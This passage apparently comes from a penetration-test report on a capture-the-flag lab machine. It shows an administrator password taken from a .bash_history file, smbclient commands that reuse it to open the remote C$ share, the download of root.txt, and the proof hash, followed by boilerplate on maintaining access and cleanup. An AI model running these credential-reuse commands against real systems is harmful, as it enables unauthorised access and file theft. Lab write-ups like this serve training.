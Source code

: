 ```txt
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
> .bash_history
```

We can modify the command to login as *administrator* remotely

```txt
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

![x](9-screenshots-storage/smb_login 1.png)

Now we can download the *root.txt* file with the following commands:

```txt
cd Users\Administrator\Desktop
get root.txt
```

\newpage

**Proof Screenshot Here:**

![x](9-screenshots-storage/root.txt.png)

**Proof.txt Contents:**

```txt
c93668bc8538fd2968812db50866b618
```


\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.
